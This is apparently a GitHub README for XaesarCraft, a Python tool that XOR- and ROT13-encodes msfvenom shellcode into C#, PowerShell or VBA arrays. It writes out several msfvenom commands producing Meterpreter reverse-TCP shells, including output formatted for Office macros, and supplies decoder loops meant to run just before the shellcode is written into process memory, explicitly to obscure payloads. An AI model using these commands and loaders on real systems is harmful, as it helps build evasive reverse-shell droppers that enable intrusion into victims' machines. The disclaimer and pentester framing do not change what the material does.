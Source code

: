 # XaesarCraft

XaesarCraft is a Python script that enables you to apply different cryptographic operations (XOR, ROT13, or a combination of these algorithms - XOROT) to byte arrays and outputs the results in various formats. 
This tool is useful for processing payloads, especially those generated by msfvenom, in csharp or ps1 formats. Additionally, XaesarCraft can convert the payload into an array format suitable for VBA scripts.

## Disclaimer

This tool is intended for educational and research purposes only. It should not be used for any illegal activities. The author is not responsible for any misuse or damage caused by this program.

## Key Features:

1. Apply XOR, ROT13, or XOROT operations to payloads generated by msfvenom in csharp or ps1 formats
2. Convert payloads into VBA array format
4. Supports custom key for operations ( one for both )
5. Output results in Base64 encoding


## Example of usage:

```
# Using XOROT with default keys (13 for ROT13;) and 0xfa for XOR) to process a payload generated by msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py 

# Using XOROT with default keys to process a payload generated by msfvenom and return result in VBA array for your macros
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py --vba

# Using only ROT13 with custom key (0x13) to process a payload generated by msfvenom 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py -m rot -n 0x13

# Using XOROT with a custom key (0x13) to process a payload generated by msfvenom and retrun payload base64 encoded
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py -n 0x13 --b64

# Process an input string directly (e.g. a payload snippet), other keys aplies too
python3 XaesarCraft.py --input "[Byte[]] $buf = 0xf8,0xa5,0x6c,0x11,0xfc,0x05" 
```

## Decryption Codes
Decryption codes for the default mode only(!) (C#, PowerShell, VBA). It's recommended to use them just before writing to process memory;):

C#
```
byte xorValue = 0xfa; int rot = 13;
for (int i = 0; i < buf.Length; i++) { buf[i] = (byte)(buf[i] ^ xorValue); }
for (int i = 0; i < buf.Length; i++) { buf[i] = (byte)(((uint)buf[i] + rot)); }
```
PowerShell
```
$xorValue = 0xfa; $rot = 13; 
for ($i=0; $i -lt $buf.Length; $i++) { $buf[$i] = [byte]($buf[$i] -bxor $xorValue); }
for ($i=0; $i -lt $buf.Length; $i++) { $buf[$i] = [byte](([uint32]$buf[$i] + $rot)); }
```
VBA
```
Dim xorValue As Byte: xorValue = &Hfa
Dim rot As Integer: rot = 13
For i = 0 To UBound(buf): buf(i) = buf(i) Xor xorValue: Next i
For i = 0 To UBound(buf): buf(i) = (buf(i) + rot) Mod 256: Next i
```

## Target Audience

Designed for security researchers, penetration testers, and cybersecurity specialists, XaesarCraft offers comprehensive solutions for effectively creating and obscuring payloads, ensuring high levels of anonymity and protection.
